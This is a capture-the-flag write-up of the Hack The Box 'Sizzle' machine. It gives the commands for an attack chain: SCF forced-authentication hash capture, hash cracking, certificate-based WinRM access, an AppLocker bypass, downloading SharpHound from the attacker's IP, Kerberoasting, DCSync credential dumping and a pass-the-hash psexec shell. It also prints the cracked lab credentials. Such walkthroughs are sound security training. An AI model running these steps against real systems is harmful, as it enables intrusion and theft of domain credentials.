




---
---

# HTB - Sizzle

NMAP


Add sizzle.htb.local to /etc/hosts

```bash
smbmap -H sizzle.htb.local -u 'guest' -p ''

```


- Two non standard shares:
Department Shares

Operations

- We can connect to Department Shares:


There are a lot of folders and some could be writable

- To determine if any is writable - we need to mount the share first:
```bash
sudo mount -t cifs -o rw,username=guest,password= '//sizzle.htb.local/Department Shares' /mnt

cd /mnt

```
- Now use a bash script to recursively test each folder:

```bash
#!/bin/bash

echo "Writable folders within /mnt directory:"

# Use find command to list directories under /mnt
# Attempt to create a file in each directory to check writability

find /mnt -type d -exec sh -c 'touch "$1/x" 2>/dev/null && echo "$1 is writable"' sh {} \;

```
- The script needs to be run with **sudo**:


- Two writable shares were found:
/mnt/Users/Public

/mnt/ZZ_ARCHIVE

<u>SCF File attack</u>

<https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication>

The way this works is a victim user opens the share  `\\sizzle.htb.local\ZZ_ARCHIVE`  and the icon.scf gets executed automatically, which in turn forces the victim system to attempt to authenticate to the attacking system at 10.10.14.31, where responder is listening

- Create an SCF file - icon.scf:


- Connect to the share
```bash
smbclient //sizzle.htb.local/'Department Shares'

```
Upload the icon.scf file to the writable folders

- Set up Responder:
```bash
sudo ./Responder.py -I tun0

```


```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

```


- We have credentials:
**Amanda : Ashare1972**


- Trying to connect via winrm fails - but it gives an error message:
```bash
evil-winrm -i sizzle.htb.local -u amanda -p Ashare1972

```




- Amanda has read on the CertEnroll Share:
```bash
smbmap -H sizzle.htb.local -u amanda -p Ashare1972

```


- The share contains CA certs:
```bash
smbclient //sizzle.htb.local/'CertEnroll' -U 'amanda%Ashare1972'

```


- Doing another scan with enum4linux:
```bash
enum4linux -u amanda -p Ashare1972 -a sizzle.htb.local

```


We can see there is a Certificate Service

- Access the Certificate Services Web Enrollment interface (certsrv):


- Log in with the credentials for Amanda

`http://sizzle.htb.local/certsrv/`


- We are on the Certificate Services site - Where you can request a cert:


- If we try and request a Certificate without creating a CSR (Certificate Signing Request) first - it fails:


**<u>Requesting a certificate:</u>**

[https://thesecmaster.com/blog/how-to-request-a-certificate-from-windows-adcs](https://thesecmaster.com/blog/how-to-request-a-certificate-from-windows-adcs)

- Generate a CSR (OpenSSL)
[https://phoenixnap.com/kb/generate-openssl-certificate-signing-request](https://phoenixnap.com/kb/generate-openssl-certificate-signing-request)
- Requesting a new certificate
- Check the status of the pending certificate request (skip)
- Download the certificate, certificate chain, or CRL

- <u>Step 1 - Generate CSR (leave all options blank):</u>
```bash
openssl req -new -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr

```


This will produce two files:


- <u>Step 2 - Request new certificate:</u>

Copy contents of the CSR:


Go to:

<http://sizzle.htb.local/certsrv/> -\> Request a Certificate -\> Advanced certificate request


Paste in the content of amanda.csr and click Submit

- <u>Step 4 - Download certificate (either one will work):</u>


If you download a DER encoded certificate you can read it with:

```bash
openssl x509 -inform der -in certnew.cer -noout -text

```
**<u>To use the certificate to connect over WinRM - We have two choices:</u>**

[https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790#0558](https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790#0558)

- **<u>Option 1 (Evil-WinRM):</u>**

We can see that with Evil-WinRM we can supply a Public and Private key


```bash
evil-winrm -S -i 10.129.7.164 -u amanda -p Ashare1972 -c certnew.cer -k amanda.key

```


- **<u>Option 2 (WinRM Ruby Script):</u>**

- First, we need to install WinRM gem:
```bash
sudo gem install winrm

```
- We copy the script and update it to include:
  - **endpoint URL to the WSMan service**
  - client certificate (certnew.cer)
  - user’s private key (amanda.key)
[https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)


**Note: WSMan and WinRM are different technologies; WSMan is the protocol for accessing and managing resources over a network. While WinRM is a Windows-specific implementation of the WS-Man protocol.**

- Run the script:
```bash
ruby winrm_shell.rb

```


To run on Windows - look at the bottom of this link:

[https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790#0558](https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790#0558)

- We get permission denied when trying to upload files, even after setting the execution policy to bypass:
```bash
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

```


- This probably means that AppLocker is running:
```bash
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

```


Here we can see that AppLocker is indeed running and that the default rules have been set on this host for executables, scripts and Windows installer files.

The default rules that are set, permit the execution of executables only from within **C:\Windows\\**.

This means that we can only execute .exe files from that folder or any subfolders inside (from the wildcard).

The only issue is that these folders generally have tight permissions by default.

AppLocker defines executable rules as any files with the .exe and .com extensions that are associated with an app.

AppLocker defines script rules to include only the following file formats: .ps1 ; .bat ; .cmd ; .vbs ; .js

Windows installer rules: .msi

**<u>AppLocker Bypass – Writeable Folders</u>**

[https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

This is whitelisted by default: **C:\Windows\System32\spool\drivers\color**


- Use icacls to check:
  - We can use icacls to look through all of the folders, subfolders and files in C:\Windows:
```bash
icacls C:\Windows\* /t /c /q | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%"

```
- Or we can only list the folders and subfolders (smaller output):
```bash
icacls C:\Windows\* /t /c /q | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" | findstr /i /v "\."

```

- Or try each directory individually:
```bash
icacls C:\Windows\System32\spool\drivers\color /t /c /q | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%"

```



- Or we can add all those potential directories into a txt file and run **(must be in cmd)**:
```bash
for /F %A in (C:\temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 

```
- So we can see that **C:\Windows\System32\spool\drivers\color** is writable

- cd to C:\Windows\System32\spool\drivers\color
- We can't use evil-winrm's built in upload

- Using wget and python http.server or using impacket-smbserver
```bash
wget http://10.10.14.31/SharpHound.exe -O sharphound.exe

```
- Run SharpHound:
```bash
.\sharphound.exe -c all

```
- We can write to the Share "Department Shares\ZZ_ARCHIVE", so copy the loot file to there:



- Acces the share and get the loot file:
```bash
smbclient //sizzle.htb.local/'Department Shares' -U "amanda%Ashare1972"

```
- From the bloodhound output, we can see that:

There are 2 kerberoastable users


And that user MRLKY has DCSync rights:




- But when we try to Kerberoast:
```bash
impacket-GetUserSPNs htb.local/amanda:Ashare1972 –dc-ip 10.129.7.164 -request

```


It gets the user mrlky because the has a valid SPN set but it can't Kerberoast the user because port 88 isn't exposed externally

- Running netstat, we can see that port 88 is open but only internally (UDP):


- To kerberoast locally, we can use Rubeus:
```bash
.\Rubeus.exe kerberoast /user:mrlky

```


But this gives an error - To do with the Logon type


- **<u>To fix this we can either:</u>**

  - Upload Powerview and use Invoke-UserImpersonation:

```powershell
$Password = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\amanda', $Password)
Invoke-UserImpersonation -Credential $Cred
Invoke-Kerberoast

```

- Or use RunasCs:

```bash
.\RunasCs.exe amanda -d htb.local Ashare1972 -l 2 "C:\Windows\System32\spool\drivers\color\Rubeus.exe kerberoast /user:mrlky /nowrap"

```


- Copy the hash to a file and crack:
```bash
hashcat -m 13100 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt
```


**Mrlky : Football#7**

- Since the user has DCSync rights - we can dump hashes:
```bash
impacket-secretsdump htb.local/mrlky:Football#7@10.129.7.164

```


or mimikatz:

```bash
mimikatz lsadump::dcsync /user:administrator /domain:htb.local /dc:sizzle

```
- Now use either smbexec.py , psexec.py or wmiexec.py to get a shell:
```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267 htb.local/administrator@10.129.7.164

```


```bash
type user.txt

type root.txt

```